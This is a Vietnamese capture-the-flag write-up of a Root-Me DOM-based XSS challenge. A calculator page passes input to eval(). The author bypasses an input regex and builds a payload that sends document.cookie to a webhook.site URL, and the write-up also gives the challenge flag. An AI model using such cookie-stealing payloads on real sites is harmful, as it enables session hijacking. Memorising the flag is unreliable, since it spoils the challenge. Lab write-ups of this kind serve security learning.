




# XSS DOM Based - Eval
Challenge có 2 chức năng chính
- Trang cho phép thực hiện phép tính
- Trang liên hệ với admin

Thực hiện thử phép tính và view page source, mình phát hiện trang web truyền untrusted data vào hàm `eval()`.  
  

Nhận thấy có thể inject để thoát khỏi hàm `eval()`, mình thử với payload `12+1); alert(1` nhưng bị báo lỗi.  
  

Nếu mình nhập ký tự, web sẽ yêu cầu mình thỏa regex `/^\d+[\+|\-|\*|\/]\d+/`. Regex này có thể bypass với payload `1+1a`.  

Do không filter ký tự `;`, nên mình có thể chèn thêm `document.location` gửi yêu cầu tới webhook.  
```
1+1,document.location.href="https://webhook.site/0bad9005-32ee-49b1-a608-ba0cb2e1f021"
```
  

Thêm `+document.cookie` để lấy cooie.  
Payload cuối cùng:  
```
http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1%2Cdocument.location.href%3D%22https%3A%2F%2Fwebhook.site%2F0bad9005-32ee-49b1-a608-ba0cb2e1f021%3Fa%3D%22%2Bdocument.cookie
```

FLAG **rootme{Eval_Is_DangER0us}**

